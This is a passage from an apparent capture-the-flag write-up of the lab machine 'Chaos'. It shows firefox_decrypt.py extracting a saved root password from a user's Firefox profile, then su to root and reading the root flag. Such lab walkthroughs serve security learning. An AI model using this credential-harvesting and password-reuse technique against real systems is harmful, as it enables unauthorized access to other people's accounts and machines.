drwxr-xr-x 2 root  root  4096 Jun 30  2022 .app
lrwxrwxrwx 1 root  root     9 Jul 12  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 Jan 17 21:30 .gnupg
drwx------ 3 ayush ayush 4096 Jun 30  2022 mail
drwx------ 4 ayush ayush 4096 Jun 30  2022 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Jan 17 21:22 user.txt
```

<br />

Let's try to extract `passwords` from `Firefox` with the [firefox_decrypt.py](https://github.com/unode/firefox_decrypt):

<br />

```bash
$ python3 firefox_decrypt.py

Master Password for profile /home/ayush/.mozilla/firefox/bzo7sjt1.default: 

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```

<br />

We have a new `password`!!

Try to log into the `root` user with it:

<br />

```bash
$ su root
Password: 
root@chaos:/home/ayush# id
uid=0(root) gid=0(root) groups=0(root)
root@chaos:/home/ayush# cd
root@chaos:~# cat root.txt
2ffec600bf688ab9d4d516442axxxxxx
```

<br />

# Beyond Root: Via Webmin 

<br />
